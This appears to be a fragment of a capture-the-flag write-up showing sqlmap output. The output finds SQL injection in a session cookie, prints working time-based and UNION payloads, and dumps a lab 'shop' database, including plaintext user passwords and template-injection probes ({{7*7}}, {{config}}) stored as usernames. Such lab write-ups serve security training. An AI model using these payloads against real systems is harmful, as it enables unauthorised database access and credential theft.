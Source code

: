 ```js
[12:03:13] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=' AND (SELECT 5262 FROM (SELECT(SLEEP(5)))WhHw) AND 'VsIT'='VsIT

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: session=' UNION ALL SELECT CONCAT(0x71706b7a71,0x77436e78697854715949745242547551727665535148484c705875437172736b78566563736e5442,0x716a6b6a71)-- -
---
[12:04:19] [WARNING] changes made by tampering scripts are not included in shown payload content(s)

...[snip]...

[12:04:31] [INFO] fetching columns for table 'users' in database 'shop'
[12:04:32] [INFO] fetching entries for table 'users' in database 'shop'
Database: shop
Table: users
[3 entries]
+----+--------------------------------------+------------+-----------------+
| id | uuid                                 | name       | password        |
+----+--------------------------------------+------------+-----------------+
| 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
| 2  | 6c22d504-24db-4737-924c-ceb77daa07a0 | {% raw %}{{7*7}}{% endraw %}    | a               |
| 3  | d9b910d5-3180-4274-a3e0-6d82e9fef789 | {% raw %}{{config}}{% endraw %} | a               |
+----+--------------------------------------+------------+-----------------+

...[snip]...

[12:04:33] [INFO] fetching columns for table 'messages' in database 'shop'
[12:04:34] [INFO] fetching entries for table 'messages' in database 'shop'
Database: shop
Table: messages
[1 entry]
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| post_id | creator | message                                                                           | timestamp           |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+
| 1       | 1       | Fix the <b>/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal</b> portal! | 2020-04-24 15:02:41 |
+---------+---------+-----------------------------------------------------------------------------------+---------------------+

...[snip]...
```
